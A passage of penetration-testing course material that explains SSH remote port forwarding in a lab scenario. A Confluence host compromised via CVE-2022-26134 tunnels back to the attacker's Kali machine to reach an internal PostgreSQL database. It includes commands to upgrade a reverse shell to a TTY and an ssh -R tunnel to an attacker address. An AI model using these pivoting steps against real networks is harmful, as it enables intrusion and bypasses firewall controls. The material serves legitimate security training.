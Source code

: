 By default, Proxychains is configured with very high time-out values. This can make port scanning really slow. Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.

### SSH Remote Port Forwarding

In our examples so far, we've been able to connect to any port we bind on the WAN interface of CONFLUENCE01. This is more challenging in the real world because, more often than not, firewalls - both hardware and software - are likely to get in the way. Inbound traffic is often controlled much more aggressively than outbound traffic. Only in rare cases will we compromise credentials for an SSH user, allowing us to SSH directly into a network and port forward. We will only very rarely be able to access ports that we bind to a network perimeter.

However, we will more often be able to SSH out of a network. Outbound connections are more difficult to control than inbound connections. Most corporate networks will allow many types of common network traffic out - including SSH - for reasons of simplicity, usability, and business need. So while it likely won't be possible to connect to a port we bind to the network perimeter, it will often be possible to SSH out.

While in local and dynamic port forwarding, the listening port is bound to the SSH client, in remote port forwarding, the listening port is bound to the SSH server. Instead of the packet forwarding being done by the SSH server, in remote port forwarding, packets are forwarded by the SSH client.

As before, we compromise CONFLUENCE01 using CVE-2022-26134. However, in this scenario, the administrators decided to improve network security by implementing a firewall at the perimeter. The firewall is configured so that, regardless of whether we bind a port on the WAN interface of CONFLUENCE01 or not, the only port we can connect to from our Kali machine is TCP 8090.

However, CONFLUENCE01 does have an SSH client, and we can set up an SSH server on our Kali machine. 

We can connect from CONFLUENCE01 to our Kali machine over SSH. The listening TCP port 2345 is bound to the loopback interface on our Kali machine. Packets sent to this port are pushed by the Kali SSH server software through the SSH tunnel back to the SSH client on CONFLUENCE01. They are then forwarded to the PostgreSQL database port on PGDATABASE01.

```bash
sudo systemctl start ssh
sudo ss -ntplu
```

In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.

Once we have a reverse shell from CONFLUENCE01, we ensure we have a TTY shell, then create an SSH remote port forward as part of an SSH connection back to our Kali machine.

The SSH remote port forward option is -R, and has a very similar syntax to the local port forward option. It also takes two socket pairs as the argument. The listening socket is defined first, and the forwarding socket is second.

In this case, we want to listen on port 2345 on our Kali machine (127.0.0.1:2345), and forward all traffic to the PostgreSQL port on PGDATABASE01 (10.4.50.215:5432).

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
